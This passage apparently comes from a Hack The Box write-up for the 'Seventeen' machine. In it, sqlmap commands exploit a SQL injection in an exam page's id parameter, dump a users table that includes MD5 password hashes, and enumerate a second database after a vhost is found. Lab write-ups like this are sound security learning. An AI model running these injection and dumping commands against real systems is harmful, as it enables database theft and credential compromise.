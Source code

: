 ```
sqlmap.py -D erms_db -T users --dump -u 'http://exam.seventeen.htb/?p=take_exam&id=1' -p id --technique B --batch --threads 10
<

Database: erms_db
Table: users
[3 entries]
+----+------+-----------------------------------+----------+----------------------------------+------------------+--------------+---------------------+------------+---------------------+
| id | type | avatar                            | lastname | password                         | username         | firstname    | date_added          | last_login | date_updated        |
+----+------+-----------------------------------+----------+----------------------------------+------------------+--------------+---------------------+------------+---------------------+
| 1  | 1    | ../oldmanagement/files/avatar.png | Admin    | fc8ec7b43523e186a27f46957818391c | admin            | Adminstrator | 2021-01-20 14:02:37 | NULL       | 2022-02-24 22:00:15 |
| 6  | 2    | ../oldmanagement/files/avatar.png | Anthony  | 48bb86d036bb993dfdcf7fefdc60cc06 | UndetectableMark | Mark         | 2021-09-30 16:34:02 | NULL       | 2022-05-10 08:21:39 |
| 7  | 2    | ../oldmanagement/files/avatar.png | Smith    | 184fe92824bea12486ae9a56050228ee | Stev1992         | Steven       | 2022-02-22 21:05:07 | NULL       | 2022-02-24 22:00:24 |
+----+------+-----------------------------------+----------+----------------------------------+------------------+--------------+---------------------+------------+---------------------+

<

```

Trying to crack these md5 hashes with [crackstation](https://crackstation.net/) but with no help. if we focus on the avatar path `../oldmanagement/files/`, it seems to be another vhost, if we say that `erms` live in `/var/www/emrs`, then avatars are aimed back to `/var/www/oldmanagement`. Let's check it then. add `oldmanagement.seventeen.htb` to the hosts file `/etc/hosts`


So yeah, we got a response back after redirecting us to port 8000:
![oldmanagement_webpage](https://github.com/0xWerz/CTF-writeups/blob/main/HTB/Machines/seventeen/img/oldmanagement_webpage.png?raw=true)


School File Management System seems to be a short form of db_sfms database, So let's dump it we might retrieve some login credentials.

```
sqlmap -D db_sfms --tables -u 'http://exam.seventeen.htb/?p=take_exam&id=1' -p id --technique B --batch --threads 10
<
Database: db_sfms
[3 tables]
+---------+
| user    |
| storage |
| student |
+---------+
<
```
